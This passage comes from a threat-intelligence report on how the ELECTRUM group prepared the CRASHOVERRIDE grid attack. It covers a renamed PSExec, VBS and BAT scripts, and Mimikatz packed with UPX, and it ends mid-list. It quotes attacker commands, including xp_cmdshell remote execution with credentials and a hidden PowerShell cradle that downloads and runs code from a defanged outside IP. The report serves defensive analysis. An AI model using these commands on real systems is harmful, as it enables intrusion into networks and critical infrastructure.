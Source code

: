 Additionally, scripts and the SysInternals PSExec program are used for additional functions. Of note on PSExec, ELECTRUM renamed the executable "ps.exe" and used an older version than the latest available at the time of the attack. While PSExec 2.2, published July 2016, would be the most-recent version, ELECTRUM instead utilized version 2.11, published April 2014.8

From a script perspective, multiple VBS and BAT scripts were used in the event to facilitate file movement. system survey, and as a wrapper for PowerShell execution. For example, one lengthy script, "remote.vbs", provides the ability to remotely query another system when given an IP, user name, and password. The script itself, provided in Appendix B, is essentially a collection of benign WMI and similar queries to perform system survey information and command execution. Looking at the source code, there are overlaps with multiple publicly-available examples for running WMI queries but no exact matches. Examples of script use for remote process execution include the following:

```
EXEC xp cmdshell 'cscript C:\Delta\remote.vbs /s:<TargetIP> /u:<UserName>
/p:<Password> /t:-r arp -a'
EXEC xp cmdshell 'cscript C:\Delta\remote.vbs /s:<TargetIP> /u:<UserName>
/p:<Password> /t:-r dir C:\intel\';
```
A different example is a simple BAT script used to execute PowerShell:

```
powershell.exe -nop -w hidden -c $1=new-object
net.webclient;$1.proxy=[Net.WebRequest]::GetSystemWebProxy();$1.Proxy.Crede
ntials=[Net.CredentialCache]::DefaultCredentials;IEX
$1.downloadstring('hxxp://188[.]42[.]253[.]43:8801/msupdate');
```
<sup>7</sup> Hashes for all recovered samples and malware are found in Appendix A.

² PSExec – Microsoft Sysinternals (

Aside from being proxy-aware, the above is a simple, unobfuscated PowerShell script to retrieve a file. Unfortunately, at the time of discovery the resource specified was no longer available, so its exact function and purpose are unknown.

Fueling much if not most of this activity was the ability to capture and reuse legitimate network credentials within the victim environment. As stated previously, the adversary used Mimikatz for this purpose. Most interestingly for the assumed level of attack sophistication and the wide variety of options for obfuscating Mimikatz or running it within memory, ELECTRUM simply compiled the publicly-available Mimikatz source code and packed it with UPX. While the tool itself remains effective, from a detection and mitigation standpoint this choice is very curious.

Tying all of the above together, ELECTRUM leveraged a combination of scripts, remote process execution, and credential harvesting to penetrate the environment and "seed" it with a final, malicious payload: CRASHOVERRIDE.

# CRASHOVERRIDE

#### ELECTRUM creates and starts CRASHOVERRIDE as a system service.

After extensive environmental survey activity and verifying access in the 12 to 15 December 2016 time period, ELECTRUM proceeds to push the CRASHOVERRIDE framework to target hosts around 16 December 2016. After verifying connectivity and other operations, on 17 December ELECTRUM begins pushinq out malicious software to hosts connected to the server machines using a BAT file calling two, unrecovered VBS scripts. Although the exact content of the VBS items is unknown, review of the BAT indicates they copy files to remote hosts and then verify via a directory listing. Of note, the BAT contains hard-coded addresses and separate files exist for each of the CRASHOVERRIDE payload modules EXCEPT the "launcher" module. Example lines from "101_copy.bat" and "104_copy.bat" include the following:
